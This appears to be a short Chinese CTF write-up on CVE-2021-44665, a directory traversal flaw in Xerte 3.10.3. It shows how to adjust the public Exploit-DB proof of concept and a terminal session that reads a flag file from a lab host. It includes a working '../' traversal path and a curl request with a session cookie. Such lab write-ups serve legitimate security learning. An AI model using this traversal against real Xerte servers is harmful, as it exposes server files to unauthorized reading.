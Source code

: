 # CVE-2021-44665

:::info

Tags

- Xerte 目录遍历

官方数据库记录

> 通过 download.php 下载项目文件时，Xerte 项目 Xerte 至 3.10.3 中存在目录遍历漏洞。

:::

在 `Exploit-db` 数据库中进行搜索，找到 [Xerte 3.10.3 - Directory Traversal (Authenticated) - PHP webapps Exploit](https://www.exploit-db.com/exploits/50794)

数据库提供的 poc 指向的 url 地址为 `127.0.0.1` 本地地址，需要在文件中将地址修改为远程服务的地址，并将 `file_to_grab` 修改为需要读取的文件

```bash
┌──(randark㉿kali)-[~/pocs]
└─$ head -n 22 CVE-2021-44665.py | tail -n 3
xerte_base_url = "http://eci-2zedon74gj2loggtdut9.cloudeci1.ichunqiu.com"
file_to_grab = "/../../../../../flag"
php_session_id = "" # If guest is not enabled, and you have a session ID. Put it here.

┌──(randark㉿kali)-[~/pocs]
└─$ python3 CVE-2021-44665.py
flag{5254580b-6f2b-4b5c-865d-cb5202cd7c75}
|-- Used Variables: --|
PHP Session ID: 6q3sbketsjv9d7g6vv4jsm54k0
user direcotry: 4-guest2-Nottingham
Curl example:
curl --cookie "PHPSESSID=6q3sbketsjv9d7g6vv4jsm54k0" http://eci-2zedon74gj2loggtdut9.cloudeci1.ichunqiu.com/getfile.php?file=4-guest2-Nottingham/../../../../../flag
```
